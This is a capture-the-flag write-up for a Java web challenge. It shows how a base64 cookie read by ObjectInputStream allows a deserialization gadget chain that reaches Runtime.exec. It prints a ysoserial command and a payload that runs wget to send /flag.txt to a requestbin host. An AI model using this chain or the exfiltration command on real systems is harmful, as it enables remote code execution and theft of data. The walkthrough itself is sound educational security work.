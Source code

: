 # ParrotOx

## Web, 997 points

### Description

All people hate java and I'm not an exception! But it's really found a lot in real life scenarios.

Author: [Fword](https://ctftime.org/team/72251)

### Solution

Java is one of the best programming languages, Java is great, OOP can be marvelous, still, let me tell you a story about some **wrong** Java.

The adventure starts with some online website and its source code. After playing a bit with the website, I understood that I can submit questions and I get my latest question in a `latest_question` cookie encoded in base64. After a while, I dived into the code to hopefully find a vulnerability in a white box kind of audit.

The source code architecture is the following:
```bash
$ tree  parrot  
parrot
├── db
│   ├── a_init.sh
│   └── init.sql
├── docker-compose.yml
├── IndexController.java
├── QuestionController.java
├── Question.java
├── Security.java
└── task
    ├── Dockerfile
    ├── flag.txt
    ├── stackoverctf.jar
    └── start.sh

```

After looking at the `docker-compose.yml` file, which is the Docker configuration to handle multiple containers, I understood that the task folder is relevant to be investigated, as it is the only application, apart from the database, used. Thereby, it should be the source code that serves the hosted website for this challenge.

The `docker-compose.yml`:
```bash
version: "3.8"

services:
  app:
    build:
      context: .
      dockerfile: ./task/Dockerfile
    image: stackoverctf
    ports:
      - "80:8080"
    depends_on:
      - db
    restart: always
  db:
    image: mariadb
#    command: --default-authentication-plugin=mysql_native_password
    environment:
      MYSQL_ROOT_PASSWORD: 'test'
      MYSQL_DATABASE: 'stackctf'
    volumes:
      - ./db:/docker-entrypoint-initdb.d
    restart: always
```

Its `Dockerfile`:

```bash
From openjdk:11

RUN useradd ctf \
    && mkdir /opt/app

COPY ./task/stackoverctf.jar /opt/app
COPY ./task/flag.txt /
COPY ./task/start.sh /opt/app
WORKDIR /opt/app

USER ctf
ENTRYPOINT ["/opt/app/start.sh"]
```

Its `start.sh`:
```bash
#!/bin/bash
while ! exec 6<>/dev/tcp/db/3306; do
    echo "Trying to connect to MySQL..."
    sleep 10
done
exec java -jar /opt/app/stackoverctf.jar
```

And obviously its dummy `flag.txt`:
```txt
FwordCTF{Test}
```

At this point, I had to go deeper and decompile `stackoverctf.jar`. I firstly tried with `jadx`, my Android tool of choice, which didn't make it, thus, I went to [https://jdec.app/](https://jdec.app/) which is a great website.

After reviewing the code, I understood that my entry point is a cookie that stores the latest question. In detail, the cookie's value is the base64 representation of a Java serialized object. Here is a snippet of it from `QuestionController.class`:

```java
[...]
   public String list(@CookieValue(value = "latest_question",defaultValue = "") String latest_question, Model model) {
      if (latest_question.length() == 0) {
         model.addAttribute("latest_question", "No recent question detected");
      } else {
         try {
            byte[] decodedBytes = Base64.getDecoder().decode(latest_question);
            ByteArrayInputStream in = new ByteArrayInputStream(decodedBytes);
            Security inp = new Security(in);
            Question result = null;
            result = (Question)inp.readObject();
            model.addAttribute("latest_question", result.getQuestion());
         } catch (IllegalArgumentException var7) {
            model.addAttribute("latest_question", "An Error has occured");
            var7.printStackTrace();
         } catch (IOException var8) {
            model.addAttribute("latest_question", "An Error has occured");
            var8.printStackTrace();
         } catch (ClassNotFoundException var9) {
            model.addAttribute("latest_question", "An Error has occured");
            var9.printStackTrace();
         }
      }

      return "questions";
   }
[...]
```

Let's dig into this Security class:
```java
public class Security extends ObjectInputStream {
   public Security(InputStream inputStream) throws IOException {
      super(inputStream);
   }
[...]
```

This is a road to Java deserialization exploitation (cf. [ObjectInputStream documentation](https://docs.oracle.com/javase/7/docs/api/java/io/ObjectInputStream.html) and [HackTricks deserialization chapter](https://book.hacktricks.xyz/pentesting-web/deserialization#java-http)) as the `ObjectInputStream` class is used with the `readObject` method without sanitizing the user input. I tried to inject a classic payload with `ysoserial`, in vain:

```bash
$ java -jar ysoserial.jar CommonsCollections5 'cat /flag.txt' | base64 | tr -d '\n' | xclip -selection c
```

Afterwards, I noticed that some Java utils classes are used:

![Java classes](./images/java_utils_classes.png)

I documented myself with [this Black Hat talk from 2020](https://www.youtube.com/watch?v=MTfE2OgUlKc) and [this master's thesis](https://tinyurl.com/7h2ytxpv) from the University of Oslo written by Sondre Fingann in 2020 about Java deserialization vulnerabilities. From these resources, I discovered Java deserialization classpath attack and `gadgetinspector` which is a Java bytecode analysis tool for finding gadget chains by the Netflix security team. It can be useful in white box attacks, which is my case here. I tried it with the `stackoverctf.jar` then:

```bash
$ java -jar gadget-inspector-all.jar stackoverctf.jar

[...]
java/security/cert/CertificateRevokedException.readObject(Ljava/io/ObjectInputStream;)V (1)
  java/util/Collections$CheckedMap.put(Ljava/lang/Object;Ljava/lang/Object;)Ljava/lang/Object; (1)
  java/util/TreeMap.put(Ljava/lang/Object;Ljava/lang/Object;)Ljava/lang/Object; (0)
  com/fword/utils/UserComparator.compare(Ljava/lang/Object;Ljava/lang/Object;)I (0)
  com/fword/utils/UserComparator.compare(Lcom/fword/utils/User;Lcom/fword/utils/User;)I (0)
  com/fword/utils/UtilityEval.handle(Ljava/lang/Object;)Ljava/lang/Object; (1)
  java/lang/Runtime.exec(Ljava/lang/String;)Ljava/lang/Process; (1)
[...]
```

It can lead me to some `Runtime.exec` by exploiting the `readObject` method from the `ObjectInputStream` class, this is insane! Thus, according to the application code, I crafted my Java exploit code, using the `utils` I highlighted above. The whole script is available [here](./exploit.java). Below is the snippet that contains the payload:

```java
Field privateValue = com.fword.utils.Truncate.class.getDeclaredField("value");
privateValue.setAccessible(true);
// get a shell environment as $() is not executed in Runtime.exec
privateValue.set(Trun, new String("sh -c $@|sh . echo wget http://requestbin.net/r/h1j2dzzb?a=$(cat /flag.txt|base64|tr -d \"\n\")"));
```

I had to take care that `$( )` doesn't get executed in `Runtime.exec`. That's why I added a `sh -c` trick to get a shell like environment.

At last, I load the classes in `com.fword.utils` and launch the exploit to get my malicious payload:
```java
$ javac -cp com/fword/utils:. exploit.java 

$ java -cp com/fword/utils:. Main

Object built successfully!
Object has been serialized
```

```bash
$ cat serialized.obj|base64|tr -d "\n"

[...]
```

I put it in the cookie `latest_question`, then I get the base64 representation of the flag on my requested bin.